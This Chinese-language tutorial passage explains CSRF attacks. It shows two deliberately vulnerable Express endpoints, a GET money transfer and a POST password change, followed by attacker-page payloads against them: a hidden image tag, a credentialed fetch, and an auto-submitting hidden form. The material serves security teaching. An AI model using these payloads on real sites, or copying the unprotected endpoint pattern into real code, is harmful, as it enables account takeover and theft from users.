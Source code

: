 ### CSRF攻击示例

#### 1. GET请求攻击

**目标网站转账接口**：
```javascript
// 银行转账API（存在CSRF漏洞）
app.get('/transfer', (req, res) => {
  const { to, amount } = req.query;
  const user = req.session.user; // 从session获取用户信息

  if (user) {
    // 执行转账操作
    transferMoney(user.account, to, amount);
    res.json({ success: true });
  } else {
    res.status(401).json({ error: '未登录' });
  }
});
```

**恶意网站的攻击代码**：
```html
<!-- 恶意网站页面 -->
<img src="http://bank.com/transfer?to=attacker&amount=10000"
     style="display:none">

<!-- 或者使用JavaScript自动发送请求 -->
<script>
  // 用户访问页面时自动执行转账
  fetch('http://bank.com/transfer?to=attacker&amount=10000', {
    credentials: 'include' // 包含Cookie
  });
</script>
```

#### 2. POST请求攻击

**目标网站接口**：
```javascript
// 修改密码API
app.post('/change-password', (req, res) => {
  const { newPassword } = req.body;
  const user = req.session.user;

  if (user) {
    updatePassword(user.id, newPassword);
    res.json({ success: true });
  }
});
```

**恶意网站攻击**：
```html
<!-- 自动提交的表单 -->
<form id="maliciousForm" action="http://bank.com/change-password" method="POST">
  <input type="hidden" name="newPassword" value="hacked123">
</form>

<script>
  // 页面加载时自动提交表单
  document.getElementById('maliciousForm').submit();
</script>
```
